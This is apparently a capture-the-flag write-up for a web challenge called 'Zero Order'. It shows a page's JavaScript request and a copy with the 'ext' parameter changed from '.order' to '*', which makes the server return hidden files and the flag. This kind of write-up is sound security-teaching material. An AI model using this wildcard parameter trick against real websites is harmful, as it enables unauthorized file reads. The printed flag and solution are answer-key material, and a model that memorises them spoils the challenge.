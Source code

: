 # Zero Order

## Description
```
Such a large company has noticeably low order activity.
Maybe they don't show all the information on the page. 
```

## Writeup

Visiting the website: <br/>
![grafik](https://github.com/Aryt3/writeups/assets/110562298/8be2373d-6f8b-4115-bba6-bf43031142d8)

Taking a look at the javascript code we can see how the request is being made. <br/>
```js
function refreshOrders()
{
var xhr = new XMLHttpRequest();
var url = "index.php";
var params = "ext=.order";

xhr.open("POST", url, true);
xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");

xhr.onreadystatechange = function() {
    if(xhr.readyState == 4 && xhr.status == 200) {
        document.getElementById("orders").innerHTML=xhr.responseText;
    }
}

xhr.send(params);
}
```

Remembering that the description states that they don't show all the information, I changed the parameters slightly. <br/>
```js
function refreshOrders()
{
var xhr = new XMLHttpRequest();
var url = "index.php";
var params = "ext=*";

xhr.open("POST", url, true);
xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");

xhr.onreadystatechange = function() {
    if(xhr.readyState == 4 && xhr.status == 200) {
        document.getElementById("orders").innerHTML=xhr.responseText;
    }
}

xhr.send(params);
}
```

Exchanging `.order` with `*` we receive a huge response body and at the bottom the flag `CODEBY{d0_y0u_w4nna_arb1tr4ry_f1l3_r34d?}`. 





